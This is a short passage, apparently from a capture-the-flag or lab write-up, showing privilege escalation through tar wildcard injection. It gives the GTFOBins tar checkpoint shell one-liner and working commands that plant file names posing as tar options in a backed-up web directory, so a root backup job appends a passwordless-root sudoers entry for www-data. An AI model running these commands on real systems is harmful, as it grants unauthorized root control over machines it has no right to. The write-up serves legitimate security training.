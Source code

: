 The thing is, that we can write inside the `/var/www/html` directory.

So we can use this GTFObin script:

**Shell**

It can be used to break out from restricted environments by spawning an interactive system shell.

- `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

What you have to do is run the following in the /var/www/html folder (which is being backed up).

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh
touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"
touch "/var/www/html/--checkpoint=1"
```

And after a minute we have root access just by using: `sudo su`